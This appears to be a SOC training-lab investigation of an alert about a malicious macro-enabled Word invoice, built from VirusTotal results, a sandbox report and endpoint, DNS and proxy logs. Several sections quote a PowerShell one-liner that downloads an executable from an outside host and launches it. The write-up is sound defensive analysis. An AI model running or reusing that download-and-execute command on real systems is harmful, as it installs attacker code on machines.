




# SOC205 – Malicious Macro Has Been Executed

## 1. Alert Overview

| Field | Details |
|---|---|
| Alert Rule | SOC205 – Malicious Macro has been executed |
| Event ID | 231 |
| Event Time | 2024-02-28 08:42:02 (UTC+03:00) |
| Alert Type | Malware |
| Hostname | Jayne |
| File Name | `edit1-invoice.docm` |
| File Path | `C:\\Users\\LetsDefend\\Downloads\\edit1-invoice.docm` |
| File SHA-256 | `1a819d18c9a9de4f81829c4cd55a17f767443c22f9b30ca953866827e5d96fb0` |
| Host IP | `172.16.17.198` |
| AV/EDR Action | Detected |
| MITRE ATT&CK | T1566.001, T1059.001, T1059.003, T1204.002, T1071, T1105, T1571 |
| Final Verdict | **True Positive** |

## 2. File Analysis — VirusTotal



The macro-enabled Word document `edit1-invoice.docm` was checked on VirusTotal. **31 of 65 security vendors** flagged the file as malicious.

This reputation result supports treating the document as malicious. The detection count alone does not explain its full behavior, so the investigation also reviewed the sandbox report and endpoint logs.

## 3. Dynamic Analysis — ANY.RUN

[View the ANY.RUN analysis](https://app.any.run/tasks/7e6a1713-8c66-4c25-afcb-650b7974d4e0/)



The sandbox report shows the following command associated with the suspicious process:

```cmd
cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('http://www.greyhathacker.net/tools/messbox.exe','mess.exe');Start-Process 'mess.exe'
```

The command attempts to use PowerShell to download `messbox.exe` from an external website, save it as `mess.exe`, and start that file. This is consistent with a downloader-style action.

Sandbox behavior describes what happened in the analyzed sandbox sample; by itself, it does not prove that the downloaded executable successfully ran on the endpoint. Endpoint and network logs are reviewed below to establish what the available telemetry confirms.

## 4. Log Management Investigation



The Log Management records show a sequence of document access, PowerShell activity, and an outbound request. The key events are explained chronologically below.

### 4.1 — 07:41:10: A file is created in Downloads

**Source:** OS / Sysmon, Event ID 11 (File Create)

- **Process:** `C:\\Windows\\Explorer.EXE`
- **Target file:** `C:\\Users\\LetsDefend\\Downloads\\edit1-invoice.docm.zip`

Explorer created a ZIP file in the user's Downloads directory. This is consistent with the archive containing the document that was subsequently opened, although the event alone does not establish how the archive arrived on the system.

### 4.2 — 07:42:00: Microsoft Word starts

**Source:** OS / Sysmon, Event ID 1 (Process Create)

- **Process:** `WINWORD.EXE`
- **Command line:** `'C:\\Program Files\\Microsoft Office\\Office14\\WINWORD.EXE' /n 'C:\\Users\\admin\\AppData\\Local\\Temp\\edit1-invoice.docm'`
- **Parent username:** `LetsDefend`
- **Current directory:** `C:\\Users\\LetsDefend\\Downloads\\edit1-invoice.docm.zip\\edit1-invoice.docm`

The process record shows Word opening `edit1-invoice.docm` from a temporary path while the current directory points inside the extracted archive path. This places the document opening immediately before the suspicious PowerShell activity in the available timeline.

### 4.3 — 07:42:25: PowerShell is launched with a download command

**Source:** OS, Event ID 4688 (New Process)

- **Account:** `LetsDefend`
- **New process:** `powershell.exe`
- **Command line:**

```powershell
POWERSHELL (NEW-OBJECT SYSTEM.NET.WEBCLIENT).DOWNLOADFILE('HTTP://WWW.GREYHATHACKER.NET/TOOLS/MESSBOX.EXE','MESS.EXE');START-PROCESS 'MESS.EXE'
```

The recorded command attempts to retrieve `messbox.exe` from `www.greyhathacker.net`, save it locally as `mess.exe`, and start the saved file. This is suspicious because a document-opening sequence is followed by a command that downloads and launches an external executable.

### 4.4 — 07:42:25: PowerShell script block is recorded

**Source:** OS, Event ID 4104 (PowerShell Script Block)

- **Username:** `LetsDefend`
- **Process ID:** `4545`
- **Script block:**

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://www.greyhathacker.net/tools/messbox.exe','mess.exe');Start-Process 'mess.exe'
```

Event 4104 records the PowerShell script content, corroborating the download-and-launch command seen in Event 4688. The two events support that the command was invoked; they do not, by themselves, confirm that the download succeeded.

### 4.5 — 07:42:45: DNS lookup for the external host

**Source:** DNS / Sysmon, Event ID 22

- **Process:** `powershell.exe`
- **Username:** `Jayne`
- **Query name:** `www.greyhathacker.net`
- **Query result:** `92.204.221.16`

The DNS record associates PowerShell activity with a lookup for the domain used in the download command. The record's `UtcTime` field shows **2023-02-28 08:42:51**, which does not align with the 2024 timestamps in the alert and nearby records. This timestamp inconsistency should be noted; the DNS event is relevant to the domain, but its exact chronological placement cannot be treated as fully reliable without resolving the discrepancy.

### 4.6 — 07:42:49: Proxy records an outbound HTTP GET request

**Source:** Proxy

- **Source:** `172.16.17.198:49212`
- **Destination:** `92.204.221.16:80`
- **Process:** `powershell.exe`
- **Method:** `GET`
- **Requested URL:** `http://www.greyhathacker.net/tools/messbox.exe`
- **HTTP status:** `404`
- **Device action:** `Permitted`

The proxy log confirms that the endpoint requested the executable URL and that the request was permitted by the device. However, the server returned **HTTP 404 (Not Found)**, so this record does **not** confirm successful retrieval of `messbox.exe`. The request itself is still evidence of attempted outbound access to the URL.

### 4.7 — 07:42:52: Related firewall event

**Source:** Firewall

- **Source:** `172.16.17.198:49212`
- **Destination:** `92.204.221.16:80`

The firewall record shows related traffic between the endpoint and the external IP over port 80. The available record does not provide additional evidence that the executable was downloaded or that a successful command-and-control session was established.

## 5. URL Reputation — VirusTotal



The URL used by the PowerShell command was checked on VirusTotal:

[View the VirusTotal URL report](https://www.virustotal.com/gui/url/a2ec231979c1a601de331e35790d231b4669633d7b24fb327d715e4e4cf1698a)

This reputation check adds context to the requested download URL. The endpoint proxy log independently confirms the HTTP GET request, while its 404 response means successful delivery of the executable is not established by that request.

## 6. Playbook Execution

| Playbook Question | Result | Supporting Evidence |
|---|---|---|
| Define Threat Indicator | **Unknown or unexpected outgoing internet traffic** | PowerShell attempted to retrieve an executable from an external host. |
| Analyze Malware | **Malicious** | VirusTotal flagged the DOCM file (31/65 vendors); the sandbox report showed suspicious download-and-launch behavior. |
| Check If Someone Requested the C2 | **Accessed** | Proxy logged a permitted HTTP GET request to the external executable URL. This means the URL was requested, not that a successful C2 session was proven. |
| Check if Malware Was Quarantined/Cleaned | **Not Quarantined** | The alert action was `Detected`, and no Endpoint Security event confirming quarantine or cleanup was available in this investigation. |

## 7. Final Assessment

**Verdict: True Positive — malicious macro-related activity.**

The document was flagged by multiple VirusTotal vendors, and the endpoint logs show Word opening the document followed by PowerShell activity that attempted to download and launch an external executable. The proxy confirms that the download URL was requested and the request was permitted, but the server returned **HTTP 404**.

Therefore, the evidence supports malicious activity and an attempted download. It does **not** establish that `messbox.exe` was successfully downloaded or executed on the endpoint, nor does it prove that a successful command-and-control session occurred. No available Endpoint Security event confirmed quarantine or cleanup.
